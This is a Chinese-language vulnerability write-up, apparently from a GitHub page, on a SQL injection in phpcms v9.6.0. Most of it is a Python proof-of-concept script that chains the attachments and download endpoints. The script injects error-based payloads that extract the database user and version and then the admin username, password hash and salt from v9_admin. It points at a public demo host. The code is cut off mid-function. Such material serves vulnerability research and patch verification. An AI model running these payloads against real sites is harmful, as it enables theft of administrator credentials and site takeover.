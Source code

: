 ```yaml
---
layout: page
title: phpcms v9.6.0 wap SQL Injection Analysis
---
```



* Auth：[Cryin'](https://github.com/Cryin/Paper)

### 概述

这两天看到phpcms v9的注入漏洞，据说还是未曾公开的，但是网上已经有文章给出了分析关于漏洞的原因以及利用方式，漏洞的利用感觉很赞，所以看下并动手验证下这个漏洞。经过分析并结合网上的POC，写了一个检测脚本并本地搭建环境验证如下：
![](http://i1.piimg.com/1949/def3dc15a41984da.png)
### POC
Python检测脚本代码：
```python
#!/usr/bin/env python
# encoding:utf-8
import requests
import urllib
import sys

class Poc():
    def __init__(self):
    	self.cookie={}
	def test(self):   
		#url = 'http://10.65.10.195/phpcms_v9.6.0_GBK'
		url = 'http://v9.demo.phpcms.cn/'
		print '[+]Start : PHPCMS_v9.6.0 sqli test...'
		cookie_payload='/index.php?m=wap&a=index&siteid=1'
		info_paylaod='%*27an*d%20e*xp(~(se*lect%*2af*rom(se*lect co*ncat(0x706f6374657374,us*er(),0x23,ver*sion(),0x706f6374657374))x))'
		admin_paylaod='%*27an*d%20e*xp(~(se*lect%*2afro*m(sel*ect co*ncat(0x706f6374657374,username,0x23,password,0x3a,encrypt,0x706f6374657374) fr*om v9_admin li*mit 0,1)x))'
		url_padding = '%23%26m%3D1%26f%3Dtest%26modelid%3D2%26catid%3D6'
		encode_url=url+'/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id='
		exploit_url=url+'/index.php?m=content&c=down&a_k='
		#get test cookies
		self.get_cookie(url,cookie_payload)
		#get mysql info
		self.get_sqlinfo(encode_url,info_paylaod,url_padding,exploit_url)
		#get admin info
		self.get_admininfo(encode_url,admin_paylaod,url_padding,exploit_url)

	def get_cookie(self,url,payload): 
		resp=requests.get(url+payload)
		for key in resp.cookies:
			if key.name[-7:] == '_siteid':
				cookie_head = key.name[:6]
				self.cookie[cookie_head+'_userid'] = key.value
				print '[+] Get Cookie : ' + str(self.cookie)
		return self.cookie
	def get_sqlinfo(self,url,payload,padding,exploit_url): 
		sqli_payload=''
		resp=requests.get(url+payload+padding,cookies=self.cookie)
		for key in resp.cookies:
			if key.name[-9:] == '_att_json':
				sqli_payload = key.value
				print '[+] Get mysql info Payload : ' + sqli_payload	
		info_link = exploit_url + sqli_payload
		sqlinfo=requests.get(info_link,cookies=self.cookie)
```